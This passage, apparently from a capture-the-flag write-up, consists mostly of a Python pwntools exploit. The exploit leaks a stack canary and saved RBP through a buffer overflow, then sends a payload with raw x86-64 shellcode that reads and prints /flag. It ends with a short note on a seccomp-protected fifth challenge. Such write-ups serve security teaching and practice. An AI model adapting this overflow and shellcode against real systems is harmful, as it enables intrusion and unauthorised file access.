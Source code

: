 ```python
# Leak canary
buf_1 = header + padding + b'B'  # The LSB of the canary is always 0x00. Hence, we need to overwrite it in order to see the result. 
p.sendline(str(len(buf_1)))
p.send(buf_1)

while True:
    data = p.recvline()
    if buf_1 in data:
        start_index = data.find(buf_1) + len(buf_1) - 1  # -1 As we also take the fake "B" LSB
        canary = struct.unpack('<Q', data[start_index: start_index + 8])[0] & 0xffffffffffffff00
        print(f'@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@Canary value:{hex(canary)}')
        break

canary_bytes = struct.pack('<Q', canary)

# Leak rbp
buf_2 = header + padding + b'B' * 8
p.sendline(str(len(buf_2)))
p.send(buf_2)

while True:
    data = p.recvline()
    if buf_2 in data:
        start_index = data.find(buf_2) + len(buf_2)
        print(f'Data is:{data} index:{start_index}')
        rbp_leak = data[start_index: start_index + 6] + b'\x00' * 2 # 6 instead of 8, as always the 2 MSBs are \x00
        assert(len(rbp_leak) == 8)
        print(f'@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@RBP value:{rbp_leak}')
        break

magic_bytes = struct.pack('<Q', 0xb7374f0277b0dd3) * int(PAD_LENGTH / 8)
shellcode = b"\x90" * 0x300 + b"\x48\xBB\x2F\x66\x6C\x61\x67\x00\x00\x00\x53\x48\xC7\xC0\x02\x00\x00\x00\x48\x89\xE7\x48\xC7\xC6\x00\x00\x00\x00\x0F\x05\x48\xC7\xC7\x01\x00\x00\x00\x48\x89\xC6\x48\xC7\xC2\x00\x00\x00\x00\x49\xC7\xC2\xE8\x03\x00\x00\x48\xC7\xC0\x28\x00\x00\x00\x0F\x05\x48\xC7\xC0\x3C\x00\x00\x00\x0F\x05"
buf_3 = magic_bytes + canary_bytes + b'D' * 8 + rbp_leak + shellcode  # Overwrite RA with rbp addr for simplicity, overflow is large enough
p.sendline(str(len(buf_3)))
p.send(buf_3)

p.interactive()
```

## Challenge 5

Now there’s also seccomp. \
The only real difference is having more data between the canary and rbp, as we use `chmod` shellcode. 
